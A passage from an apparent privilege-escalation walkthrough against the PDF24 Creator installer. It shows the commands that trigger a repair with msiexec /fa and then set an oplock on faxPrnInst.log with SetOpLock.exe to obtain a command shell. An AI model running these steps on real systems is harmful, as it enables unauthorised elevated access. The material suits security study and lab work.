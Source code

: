 Now let’s execute a command that will run the installer

```bash
msiexec.exe /fa pdf24-creator-11.15.1-x64.msi
```

![image.png](../images/lock%2026.png)

now let’s upload and run the SetOplock tool that will give us the CMD

```bash
SetOpLock.exe "C:\Program Files\PDF24\faxPrnInst.log" r
```

![image.png](../images/lock%2027.png)
